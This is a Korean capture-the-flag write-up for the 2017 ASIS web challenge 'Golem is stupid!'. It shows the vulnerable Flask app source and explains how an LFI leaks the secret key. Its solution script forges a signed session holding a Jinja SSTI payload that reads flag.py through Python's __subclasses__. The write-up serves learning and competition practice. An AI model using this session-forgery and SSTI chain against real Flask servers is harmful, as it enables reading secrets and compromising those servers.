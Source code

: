 # 2017 Asis - [WEB] Golem is stupid!

## Key words

- flask session
- Server Side Template Injection (SSTI)

## Solution

문제에 접속하면 입력 부분이 있고 그 뒤에 article을 보여주는 인자가 존재합니다.

article 부분에서 LFI 가 발생하여 서버 내부 자원에 접근이 가능합니다.

LFI 의 입력으로는 `/proc/self/cmdline` 을 통해 설정 파일의 위치를 알수 있었고, 해당 설정 파일을 다시 읽어 현재 파이썬 파일이 동작하는 위치를 알 수 있었습니다.

해당 파이썬 파일을 보면 다음과 같습니다.

```python
#!/usr/bin/python
import os from flask
import (
    Flask,
    render_template,
    request,
    url_for,
    redirect,
    session,
    render_template_string
)
from flask.ext.session import Session

app = Flask(__name__)
execfile('flag.py')
execfile('key.py')

FLAG = flag
app.secret_key = key

@app.route("/golem", methods=["GET", "POST"])
def golem():
    if request.method != "POST":
        return redirect(url_for("index"))

    golem = request.form.get("golem") or None

    if golem is not None:
        golem = golem.replace(".", "").replace("_", "").replace("{","").replace("}","")

    if "golem" not in session or session['golem'] is None:
        session['golem'] = golem
        template = None

    if session['golem'] is not None:
        template = '''{%% extends "layout.html" %%} {%% block body %%} <h1>Golem Name</h1> <div class="row> <div class="col-md-6 col-md-offset-3 center"> Hello : %s, why you don't look at our <a href='/article?name=article'>article</a>? </div> </div> {%% endblock %%} ''' % session['golem'] print session['golem'] = None return render_template_string(template)

@app.route("/", methods=["GET"])
def index():
    return render_template("main.html")

@app.route('/article', methods=['GET'])
def article():
    error = 0
    if 'name' in request.args:
        page = request.args.get('name')
    else:
        page = 'article'

    if page.find('flag')>=0:
        page = 'notallowed.txt'

    try:
        template = open('/home/golem/articles/{}'.format(page)).read()
    except Exception as e:
        template = e

    return render_template('article.html', template=template) if __name__ == "__main__": app.run(host='0.0.0.0', debug=False)
```

flag.py 가 필터링 되어 있고, key.py는 필터링 되어 있지 않습니다. 해당 파일을 읽으면 secret_key가 노출 되고 해당 키를 이용하여 세션을 생성할 수 있습니다.

플라스크 로직에 golem 으로 입력을 받으면 필터링을 하지만 session['golem']이 존재하면 필터링을 하지 않기 때문에 위에서 얻은 secret_key를 기준으로 golem 키의 세션을 생성하여 SSTI 이 가능합니다.

flask request 모듈을 이용하여 file 함수를 호출 할수 있고 이를 이용하여 flag.py 를 읽을 수 있습니다.

### Solution Code

```
from flask import *
app = Flask(__name__)
app.secret_key = "7h15_5h0uld_b3_r34lly_53cur3d"

@app.route("/")
def index():
    session["golem"] = "{{ request.__class__.__mro__[8].__subclasses__()[40]('flag.py').read() }}"
    return ""

if __name__ == "__main__":
    app.run("0.0.0.0", 8080)
```

위에서 얻은 세션 값을 문제 서버에 전달하면 flag.py를 읽고 출력을 해줍니다.

